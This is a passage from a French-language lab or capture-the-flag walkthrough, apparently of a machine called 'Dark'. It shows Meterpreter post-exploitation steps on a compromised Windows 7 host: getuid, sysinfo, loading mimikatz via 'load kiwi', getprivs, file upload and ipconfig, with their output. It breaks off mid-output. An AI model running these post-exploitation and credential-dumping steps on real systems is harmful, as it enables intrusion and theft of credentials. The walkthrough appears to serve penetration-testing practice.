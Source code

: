 Malheureusement, on n'a pas les privilèges adéquats. Pour trouver un moyen de s'élever, on énumère la machine avec `getuid` et `sysinfo` :

```sh
meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Pour charger mimikatz, on entre `load kiwi` :

```sh
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

[!] Loaded x86 Kiwi on an x64 architecture.

Success.
```

Pour énumérer les privilèges, `getprivs` :

```sh
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

Pour charger des fichiers de notre machine vers celui de la victime : `upload <fichier>`

Pour connaître la config ip de la victime : `ipconfig`

```sh
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 12
```